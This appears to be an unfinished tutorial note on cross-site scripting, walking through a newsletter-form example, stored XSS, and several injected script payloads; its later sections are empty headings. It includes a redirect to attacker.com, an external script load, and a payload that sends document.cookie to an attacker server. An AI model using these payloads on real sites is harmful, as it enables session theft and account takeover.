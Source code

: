 An XXS vulnerability occurs when an attacker executes a custom script on the users browser. 
These attacks inject their code onto pages being viewed by other uses and can lead to things like leaking personal information, stealing cookies, changing site content, and or redirect the user to a malicious site. 
## Mechanisms
The attacker injects a script into webpages that users view, in order to understand XSS we first need to understand HTML and Javascript syntax.
Web pages are made up of HTML code that describe the pages structure and contents.

```html
<html>
	<h1>Welcome to my web page.</h1>
	<p>Thanks for visiting!</p>
</html>
```

HTML also allows us to embed images within pages, create user-input forms, link to external pages, and perform various other tasks.
It also allows us to execute scripts inside of HTML documents, its used to control client side application logic to create an interactive experience. 

```html
<html>
	<script>alert("Hello!");</script>
	<h1>Welcome to my web page.</h1>
	<p>Thanks for visiting!</p>
</html>
```

This script creates a pop-up message on the webpage that says `Hello!`.
This is called an `inline script` and are the cause for many XSS vulnerabilities. 

```html
<html>
	<script>alert("Hello!");</script>
	<h1>Welcome to my site.</h1>
	<h3>This is a cybersecurity newsletter that focuses on bug bounty news and write-ups. Please subscribe to my newsletter below to receive new cybersecurity articles in your email inbox.</h3>
	<form action"/subscribe" method="POST">
		<label for="email">Email:</label><br>
		<input type="text" id="email" value="Please enter your email.">
		<br><br>
		<input type="submit" value="Submit">
	</form>
</html>
```

This page contains a form that lets users subscribe to a newsletter.
After a users inputs their email the website confirms it by displaying it on the screen: 
```html
<p>Thanks! You have subscribed <b>example@gmail.com</b> to newsletter.</p>
```

What if the user decides to input a script instead of an email address? 

```html
<script>location="http://attacker.com";</script>
```

If the web application doesn't validate or sanitize the input before displaying the confirmation message the source code for the page would change.

```html
<p>Thanks! You have subscribed <b><script>location="http://attacker.com";</script></b> to newsletter.</p>
```

Validating user input means that the web app checks that the user input meets a certain standard. 
It should change special characters in the input that could be used as a means to interfere with our HTML logic. 
The example were seeing now would cause the user to be redirected to a malicious site.
XSS happens when attackers inject scripts in this way onto a page that another user is visiting. 

```html
<script src=http://attacker.com/xss.js></script>
```

Attackers can also manipulate the `src` attribute in HTML to load javascript files from external sources to execute in the users browser.
This example isn't really possible since there is no way to inject a script but they can redirect themselves to a malicious page. 

```html
http://subscribe.example.com?email=<script>location="http://attacker.com";</script>
```

However lets say the site also allows users to subscribe to the newsletter by visiting a URL, after they visit they will be subscribed, the confirmation will be shown on the users browser.
Attackers can inject a script that included in the link, the browser will think that the script is part of the actual website. 
The script could access resources stored on the browser like cookies and session tokens resulting in your information being stolen and possibly losing access to user accounts. 

```html
<script>image = new Image();
image.src='http://attacker_server_ip/?c='+document.cookie;</script>
```

This example of an XSS attack sends a request to the attack with the victims cookie as a URL parameter. 
## Types of XSS
There are 3 kinds of XSS attacks and the factor that differentiates them is how the payload travels before it gets delivered to the user. 
There are also a few XSS flaws that fall into their own special categories. 
#### Stored XSS
Occurs when the user input is stored on a server and retrieved unsafely.
The app doesn't validate user input, it stores it on its server and renderings it without being sanitized.
This is the most severe type of XSS attack, potential of attacking many or all users, only viewing the page is required to suffer this attack.
Attackers manage to permanently save their malicious code on the server for others to access.
We could see things like databases being affected, accessing server logs, etc.
For example a user can submit code in a comment field that could alter the page if the input isn't properly sanitized. 

```html
<script>alert('XSS by Drew')</script>
```

Submitting this code would be updated to look like this.

```html
<h2>Andrew's message</h2>
<p>What a great post! Thanks for sharing.</p>
<h2>Attacker's message</h2>
<p><script>alert('XSS by Drew')</script></p>
```

The comment field will display as blank but its running whatever code you type between the script tags, every time a user visits this page the malicious code will execute. 

Upon submitting it would become embedded on the forums pages HTML code.

#### Blind XSS
#### Reflected XSS
#### DOM Based XSS
#### Self XSS
## Prevention
